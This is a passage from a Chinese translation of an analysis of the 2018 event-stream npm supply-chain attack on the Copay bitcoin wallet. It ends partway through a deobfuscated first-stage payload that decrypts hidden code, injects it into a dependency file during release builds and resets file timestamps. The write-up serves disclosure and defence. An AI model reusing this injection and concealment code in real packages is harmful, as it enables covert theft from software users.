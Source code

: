 > * 原文地址：[Compromised npm Package: event-stream](https://medium.com/intrinsic/compromised-npm-package-event-stream-d47d08605502)
> * 原文作者：[Thomas Hunter II](https://medium.com/@tlhunter?source=post_header_lockup)
> * 译文出自：[掘金翻译计划](https://github.com/xitu/gold-miner)
> * 本文永久链接：[https://github.com/xitu/gold-miner/blob/master/TODO1/compromised-npm-package-event-stream.md](https://github.com/xitu/gold-miner/blob/master/TODO1/compromised-npm-package-event-stream.md)
> * 译者：[CoderMing](https://github.com/coderming)
> * 校对者：[格子熊](https://github.com/KarthusLorin)，[caoyi](https://github.com/caoyi0905)

# 被污染的 npm 包：event-stream

![](https://cdn-images-1.medium.com/max/800/1*OB_BwZtUSGuM15X6xFsrWw.png)

一个著名的 npm 包 [`event-stream`](https://github.com/dominictarr/event-stream) 的作者，将其转让给了一个恶意用户 [right9ctrl](https://github.com/right9ctrl)。这个包每个月有超过 [150万](https://www.npmjs.com/package/event-stream) 次下载，同时其被 1,600 个其它的 npm 包依赖。恶意用户通过持续地向这个包贡献代码来获得了其原作者的信任。这个 npm 包由恶意用户发布的第一个版本时间是 2018 年 9 月 4 日。

恶意用户修改了 `event-stream`，让其依赖了一个恶意 npm 包 [`flatmap-stream`](https://github.com/hugeglass/flatmap-stream)。这个 npm 包是专门针对这次攻击所制作的。它包括了一个相当简单的 `index.js` 文件，同时也有一个压缩版的 `index.min.js` 文件。在 GitHub 上，这两个文件看起来完全没问题。然而，在 npm 上发行的代码并没有被要求与 git 仓库中所存储的代码相同。

这个被插入到 `event-stream` 中的恶意 npm 包在 10 月 20 日被其他用户发现并在 [dominictarr/event-stream#116](https://github.com/dominictarr/event-stream/issues/116#issuecomment-441759047) 中曝光。这个 issue 在恶意 npm 包发布两个月后才被创建。开源软件的一大好处是能够集众多开发者之力，但这并不是毫无坏处的。例如 OpenSSL，这个开源项目有着几乎最严格的代码审查，但是其仍然有许多不足之处，例如 Heartbleed 漏洞（译者注：可参考 http://heartbleed.com/ ）。

### 恶意 npm 包做了什么？

该恶意 npm 包是一种针对性很强的攻击。它最终会对一个开源 App [bitpay/copay](https://github.com/bitpay/copay) 发起攻击。该 App 的 README 中提到：_Copay 是一个支持桌面端和移动端的安全比特币钱包平台_。我们知道恶意 npm 包只针对这个应用是因为其会读取项目 `package.json` 文件中的 `description` 字段，并用其去解码一个 **AES256** 加密的代码段。

对于其他项目， `description` 字段不能够用于给加密代码段解密，之后 hack 操作将会悄悄终止。 而 [bitpay/copay的 description 字段](https://github.com/bitpay/copay/blob/90336ef9fb4cc3a90a026827be27a32348d3615c/package.json#L3)，也就是 `A Secure Bitcoin Wallet`，是解密这些数据（加密代码段）的key。

 `flatmap-stream` 这个包巧妙地将数据隐藏在了 `test` 文件夹中。这个文件夹在 GitHub 不可见但却出现在了实际的 [`flatmap-stream-0.1.1.tgz`](https://registry.npmjs.org/flatmap-stream/-/flatmap-stream-0.1.1.tgz) 包中。这些加密的数据以一个数组的形式存储，数据的每一部分都被压缩及混淆过，同时也以不同的参数进行了加密。一部分加密的数据包括了一些会被静态数据统计工具警告为恶意行为的方法名，例如 `_compile` 这个在 `require` 中意味着创建一个新 Module 的字符串。在下面两段示例代码中，我尽我所能去清理了这些文件让代码更易读。

这是第一部分。它不怎么有意思，最有可能出现于一个 bootstrap 内的函数来用于引入第二段代码。它看起来是通过修改子模块中的一个名为 `ReedSolomonDecoder.js` 的子模块来使用的。如果该文件中已经有了 `/*@@*/` 这个字符串，那么它就什么都不做。如果尚未对其进行修改，那么它不仅会修改文件，还会将访问权限和修改后的时间戳替换为原来的值。这样做的话，当你看你磁盘中的文件时，你就不会注意到它已经被修改了。

```
/*@@*/
module.exports = function (e) {
  try {
    if (!/build\:.*\-release/.test(process.argv[2])) return;
    var desc = process.env.npm_package_description;
    var fs = require("fs");
    var decoderPath = "./node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js";
    var decoderStat = fs.statSync(decoderPath);
    var decoderSource = fs.readFileSync(decoderPath, "utf8");
    var decipher = require("crypto").createDecipher("aes256", desc);
    var s = decipher.update(e, "hex", "utf8");
    s = "\n" + (s += decipher.final("utf8"));
    var a = decoderSource.indexOf("\n/*@@*/");
    if (0 <= a) {
      (decoderSource = decoderSource.substr(0, a));
      fs.writeFileSync(decoderPath, decoderSource + s, "utf8");
      fs.utimesSync(decoderPath, decoderStat.atime, decoderStat.mtime);
      process.on("exit", function () {
        try {
```